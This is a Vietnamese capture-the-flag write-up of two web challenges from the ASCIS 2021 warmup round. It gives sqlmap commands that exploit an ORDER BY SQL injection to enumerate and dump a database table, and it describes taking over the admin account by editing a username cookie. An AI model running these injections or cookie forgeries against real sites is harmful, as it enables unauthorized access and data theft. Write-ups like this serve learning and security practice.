








Trong tuần qua, mình cùng với bạn của mình tham gia vòng Warmup của ASCIS 2021, mình xin được phép chia sẻ lại 2 bài web trong giải với mọi người.
## Hitech shop
Khi vào challenge, mình có thể thấy một số vùng có khả năng có lỗi sqli, ban đầu mình khá tập trung vào vùng `search` nhưng thật tiếc là với bất kì payload nào mình truyền vào cũng đều thất bại.



Mình chuyển qua phần sort, ở đây có sắp xếp theo Name và Price, chỗ này mình có gặp khó khăn, sau một hồi thì bạn mình bảo mình thử sài sqlmap đi. Mình chưa từng sài sqlmap trước đây, trước giờ mình toàn né việc phải sài sqlmap. Nhân cơ hội này thì mình sẽ thử học và sài sqlmap luôn :')))

List databases:

```
sqlmap -u http://125.235.240.166:20105/index?order=name --dbs
```


List tables of vannd's database:

```
sqlmap -u http://125.235.240.166:20105/index?order=name -D vannd --tables
```


List colums of flag table:

```
sqlmap -u http://125.235.240.166:20105/index?order=name -D vannd --tables -T flag --columns
```


Dump value in secert column:

```
sqlmap -u http://125.235.240.166:20105/index?order=name -D vannd --tables -T flag --columns -C secret --dump
```


***Flag: ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}***

## yeuvcs

Ở challenge này, chúng ta sẽ thấy một trang đăng nhập, ở đây chúng ta có thể thấy một tùy chọn để đăng kí tài khoản

Thực hiện đăng kí một tài khoản mới và đăng nhập với tài khoản này.



Sau khi đăng nhập, chúng ta sẽ thấy một phần search, phần search này cho phép chúng ta search username của tất cả account, mình search với key là `%` để list mọi username:



Mình thấy một user có tên là sonnh, bên cạnh tên này có hình ngôi sao, rất có thể đây là admin.

Kiểm tra trong phần cookie, mình thấy có một cookie có tên là username có value là username của account chúng ta đang đăng nhập. Không biết liệu nó có work không nhưng mình vẫn thử đổi value này thành sonnh (tức admin):



Chọn `GET SECRET`, chúng ta sẽ có được flag.

***Flag: ASCIS{I_cant_find_name_for_4_fl4g}***

## End.
## _Thank you for your reading!_
